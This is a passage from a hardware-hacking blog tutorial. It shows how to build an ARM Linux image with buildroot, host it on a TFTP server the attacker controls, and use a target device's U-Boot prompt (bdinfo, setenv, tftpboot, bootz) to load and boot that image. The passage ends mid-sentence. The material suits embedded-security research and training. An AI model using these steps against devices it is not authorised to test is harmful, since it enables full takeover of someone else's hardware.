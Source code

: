 configuration items are chosen.</p><p>- &#x2018;Target Options&#x2019; -&gt; &#x2018;Target Architecture (ARM (little endian))&#x2019;</p><p>- &#x2018;Networking Applications&#x2019; -&gt; &#x2018;OpenSSH&#x2019;</p><p>- &#x2018;Kernel&#x2019; -&gt; &#x2018;Kernel Binary Format&#x2019; -&gt; &#x2018;uImage&#x2019;</p><p>Once satisfied that these options are configured we can save the configuration and drop back to a shell.</p><p>From here we issue the <strong><em>make all</em> </strong>command and take the opportunity to enjoy a long overdue coffee break to allow buildroot to do its thing !</p><figure class="kg-card kg-image-card"><img src="https://blog.attify.com/content/images/2021/12/image-7.png" class="kg-image" alt="To Boot Or Not To Boot &#x2013; Practical Attack Vector" loading="lazy" width="168" height="26"></figure><p>Once complete we should be left with the required files which allows us to move on to the next step.</p><h2 id="setting-up-the-attacking-platform"><a><strong>Setting up the attacking platform</strong></a></h2><p>In order to make this attack vector viable we need to setup and configure a host under attacker control. This device will host the required files and offer a TFTP service to any interested parties to gladly utilise.</p><p>Based on our chosen Debian flavored NIX* we go about setting up and configuring the HPA&apos;s tftp server.</p><p>Following outlines the installation and configuration:</p><p><strong>1. <em>sudo apt-get install tftpd-hpa</em></strong> &#x2013; Install the package</p><p><strong>2. <em>sudo service tftp-hpa start</em> - </strong>Start the service</p><p><strong>3. <em>cp zImage versatile-pb.dtb rootfs.cpio.uboot /var/lib/tftpboot</em></strong> - /var/lib/tftpboot is the root tftp directory and must contain any files you would like to transfer</p><figure class="kg-card kg-image-card kg-card-hascaption"><img src="https://blog.attify.com/content/images/2021/12/image-8.png" class="kg-image" alt="To Boot Or Not To Boot &#x2013; Practical Attack Vector" loading="lazy" width="768" height="400" srcset="https://blog.attify.com/content/images/size/w600/2021/12/image-8.png 600w, https://blog.attify.com/content/images/2021/12/image-8.png 768w" sizes="(min-width: 720px) 720px"><figcaption>Figure 2. Netstat shows service listening</figcaption></figure><h2 id="leveraging-u-boot"><a><strong>Leveraging U-Boot</strong></a></h2><p>Now that our attacking ecosystem is setup to accept incoming TFTP requests we will return to the U-Boot prompt that we are familiar with from the previous two blog posts, which looks something like this:</p><figure class="kg-card kg-image-card kg-card-hascaption"><img src="https://blog.attify.com/content/images/2021/12/image-9.png" class="kg-image" alt="To Boot Or Not To Boot &#x2013; Practical Attack Vector" loading="lazy" width="902" height="148" srcset="https://blog.attify.com/content/images/size/w600/2021/12/image-9.png 600w, https://blog.attify.com/content/images/2021/12/image-9.png 902w" sizes="(min-width: 720px) 720px"><figcaption>Figure 3. U-Boot Prompt (version command issued)</figcaption></figure><p>We are now ready to start leveraging the U-Boot prompt and make it do our bidding.</p><p>Step 1. Examination of the DRAM structure in order to ascertain the correct load address for our kernel image. We are looking for the starting address.</p><p>- Issuing the <strong><em>bdinfo </em></strong>command provides us with this information denoted by the DRAM Bank start register.</p><figure class="kg-card kg-image-card kg-card-hascaption"><img src="https://blog.attify.com/content/images/2021/12/image-10.png" class="kg-image" alt="To Boot Or Not To Boot &#x2013; Practical Attack Vector" loading="lazy" width="902" height="740" srcset="https://blog.attify.com/content/images/size/w600/2021/12/image-10.png 600w, https://blog.attify.com/content/images/2021/12/image-10.png 902w" sizes="(min-width: 720px) 720px"><figcaption>Figure 4. U-Boot Prompt (<b><i>bdinfo</i></b> command issued)</figcaption></figure><p>Step2. Configuration of the network layer in order to commence communications with our attackers TFTP server.</p><p>- Issuing the <strong><em>setenv ipaddr &lt;target device ip address&gt; </em></strong>and <strong><em>setenv serverip &lt;tftp ip address&gt;</em></strong>, allows us to build a layer 3 connection between the target device and the attackers TFTP server host.</p><figure class="kg-card kg-image-card"><img src="https://blog.attify.com/content/images/2021/12/image-19.png" class="kg-image" alt="To Boot Or Not To Boot &#x2013; Practical Attack Vector" loading="lazy" width="470" height="62"></figure><p>- To confirm communications we will ping the serverip, just for the completeness</p><figure class="kg-card kg-image-card"><img src="https://blog.attify.com/content/images/2021/12/image-11.png" class="kg-image" alt="To Boot Or Not To Boot &#x2013; Practical Attack Vector" loading="lazy" width="384" height="90"></figure><p>Step 3. Copy the required files into specified DRAM locations using TFTP.</p><p>- Issuing the <strong><em>tftpboot</em></strong> <strong><em>&lt;loadaddress&gt; &lt;tftp server ip&gt;:[filename]</em></strong> allows for the transfer and subsequent loading of files into the target devices DRAM address space.</p><figure class="kg-card kg-image-card"><img src="https://blog.attify.com/content/images/2021/12/image-12.png" class="kg-image" alt="To Boot Or Not To Boot &#x2013; Practical Attack Vector" loading="lazy" width="848" height="792" srcset="https://blog.attify.com/content/images/size/w600/2021/12/image-12.png 600w, https://blog.attify.com/content/images/2021/12/image-12.png 848w" sizes="(min-width: 720px) 720px"></figure><p>Step 4. Boot the target device kernel image incorporating all load address attributes</p><p>- Issuing the <strong><em>bootz 0x41000000 0x42000000 0x41a00000 </em></strong>command boots the target system incorporating kernel,